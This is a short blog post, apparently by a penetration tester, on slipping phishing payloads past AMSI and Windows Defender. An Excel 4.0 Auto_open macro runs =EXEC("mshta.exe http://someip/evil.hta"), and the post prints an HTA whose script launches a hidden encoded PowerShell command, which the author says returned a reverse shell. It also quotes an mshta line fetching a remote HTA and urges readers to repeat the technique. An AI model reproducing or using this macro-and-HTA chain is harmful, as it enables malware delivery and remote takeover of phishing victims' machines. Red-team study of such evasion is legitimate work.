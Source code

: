 ```yaml
---
title: "Phishing AMSI Bypass"
date: 2020-02-25T13:07:25-05:00
draft: false
toc: false
images:
tags:
  - ASMI 
---
```

## How to bypass AMSI (The Simplest Way)

I was looking to run my own phishing campaigns on my current organization and was testing office document payloads.
I tried the old fashioned VBA in the macro running the shell function as well as some others, and defender caught most if not all of them.
Using this tool [Macro-Pack](https://github.com/sevagas/macro_pack) works sometimes but often, it would get flagged or the powershell command would not properly run.
I noticed that most of the issues i was running into was this AMSI popup ![asmi popup](/popup.png)

So i began researching AMSI as i never heard of it. The following resources break down AMSI and bypass options.

* [Outflank](https://outflank.nl/blog/2019/04/17/bypassing-amsi-for-vba/)
* [byte storm](https://medium.com/@byte_St0rm/adventures-in-the-wonderful-world-of-amsi-25d235eb749c)
* [security soup](https://security-soup.net/flawedammyy-rat-excel-4-0-macros/)
* [OutFlank2](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

The first two explain what AMSI is and the last two go into the easier ways to bypass it. Security-Soup broke down how some actors bypassed it using excel 4.0 macros.
Aka really old macros that still work. I used the following link to get more familiar with these macros.[Excel Off The Grid](https://exceloffthegrid.com/using-excel-4-macro-functions/).
I pretty much right clicked my sheet. And clicked Excel 4.0 macro. This creates a new sheet called macro1. If you rename the first cell Auto_open it will run the sheet cell by cell.
You can run pretty much anything with the following function.
```
=EXEC("cmd.exe")
```
The issue i was running into at this point was not AMSI it was defender flagging certain lolbins like certil for example.
So i decide to look for lolbins that could potentially bypass defender since AMSI was taken care of. I came across a post here on [IronHackers](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)
That pretty much goes through alot of lolbins but what i noticed was they mentioned that.
```
mshta.exe http://192.168.43.103/Launcher.hta
```
Mshta.exe doesnt get flagged.



So i found an HTA payload which contained some jscript and tried injecting that into my exec function. The macro1 sheet now looks like this

```
=EXEC("mshta.exe http://someip/evil.hta")
```
The HTA file looks like this 
```
<html>
<head>
<HTA:APPLICATION id="hwHTA"
applicationName="hyperHTA"
border="thin"
borderStyle="normal"
caption="yes"
icon="http://www.hyperwrite.com/features/favicon.ico"
maximizeButton="yes"
minimizeButton="yes"
showInTaskbar="no"
windowState="normal"
innerBorder="yes"
navigable="yes"
scroll="auto"
scrollFlat="yes"
singleInstance="yes" 
sysMenu="yes"
contextMenu="yes"
selection="yes" 
version="1.0" />

<script>
a=new ActiveXObject("WScript.Shell");
a.run("powershell -encodedCommand safdjngnrwgnwfn Blah blah blah",0,false);window.close();
</script>

<title>Simple HTML Page</title>

</head>

<body>

<h1>Dummy Page</h1>
<hr>
<p>This is a simple, common or garden variety, normal HTML page. Oh, but saved
with a .HTA extension, and with an &lt;HTA&gt; application block included at the
top of the HTML code. </p>
<p>And to make it interesting, here is a link to the <a href="http://www.aodc.com.au/" target="_top">AODC
Web site</a>.</p>
<p>And why not retrieve the version number out of the HTA:Application properties
using <a href="#" onClick="JavaScript:alert('Version of this HTA is ' + hwHTA.version)">JavaScript</a>.</p>
<p>&nbsp;</p>

</body>

</html>
```

Im not very savy to Jscript or VB so i found this online entered my own powershell encoded command into it.
And to my surprise it did not trigger defender and my reverse shell came in soon after. So with just using an old school method found with soome googling and leveraging mshta.exe you too can bypass defender as well as AMSI to get code execution.


## How to bypass AMSI (The Harder Way, But Also More Flexible)
[Hoang Bui's Blog](https://medium.com/@fsx30/excel-4-0-macro-old-but-new-967071106be9)